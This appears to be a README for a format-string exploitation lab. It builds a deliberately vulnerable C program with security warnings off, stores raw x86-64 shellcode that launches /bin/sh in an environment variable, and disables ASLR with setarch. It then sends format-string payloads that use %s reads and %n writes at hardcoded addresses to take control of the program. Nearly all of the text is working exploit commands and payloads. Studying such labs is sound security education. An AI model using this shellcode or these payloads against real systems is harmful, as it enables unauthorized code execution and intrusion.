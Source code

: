 # insecure-format-strings

##Build
```
clang getenvaddr.c -o getenvaddr
clang exploitable.c -Wno-format-security -o exploitable
```

##Add shellcode to environment
```
export SHELLCODE=$(printf "\xeb\x17\x5f\x48\x31\xd2\x48\x31\xc0\x48\x89\xe6\x48\x89\x54\x24\x08\x48\x89\x3c\x24\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh")
```

##Turn off ASLR for a specific run
```
setarch `uname -m` -R <command>
```

##Find address
```
setarch `uname -m` -R ./getenvaddr SHELLCODE ./exploitable
setarch `uname -m` -R ./getenvaddr PATH ./exploitable
```

##Print environment variable (find address with the command above)
```
setarch `uname -m` -R ./exploitable ..%13\$s.$(printf "\x21\xe9\xff\xff\xff\x7f")
```

##What is happening here?
```
setarch `uname -m` -R ./exploitable AAAAAAAA..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%nAAAA$(printf "\x40\x10\x60")
```

